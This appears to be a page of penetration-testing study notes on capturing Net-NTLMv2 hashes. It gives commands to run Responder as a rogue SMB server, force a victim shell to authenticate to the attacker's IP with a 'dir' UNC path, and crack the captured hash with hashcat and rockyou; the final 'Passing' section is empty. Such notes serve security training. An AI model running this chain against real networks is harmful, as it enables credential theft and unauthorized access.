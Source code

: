 # Net-NTLMv2

{% hint style="success" %}
When there is code execution as an unprivileged user&#x20;
{% endhint %}

1. set up an SMB server with Responder on our Kali machine
2. connect to it with the user
3. crack the Net-NTLMv2 hash, which is used in the authentication process.

<mark style="background-color:purple;">**Responder**</mark>:

* includes a built-in SMB server that handles the authentication process for us and prints all captured Net-NTLMv2 hashes
* also includes other protocol servers (including HTTP and FTP) as well as [_Link-Local Multicast Name Resolution_](https://en.wikipedia.org/wiki/Link-Local_Multicast_Name_Resolution) (LLMNR), [_NetBIOS Name Service_](https://en.wikipedia.org/wiki/NetBIOS) (NBT-NS), and [_Multicast\_DNS_](https://en.wikipedia.org/wiki/Multicast_DNS) (MDNS) poisoning capabilities

```sh
sudo responder -I tap0
```

* RES
* **-I**: listening interface

In shell, connecting to SMB server:

```sh
dir \\192.168.119.2\test
```



## Cracking Net-NLTMv2

Get correct hashcat mode:

```sh
hashcat --help | grep -i "ntlm"
```

Crack Net-NLTMv2 hash:

{% code overflow="wrap" %}
```sh
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
```
{% endcode %}



## Passing Net-NLTMv2
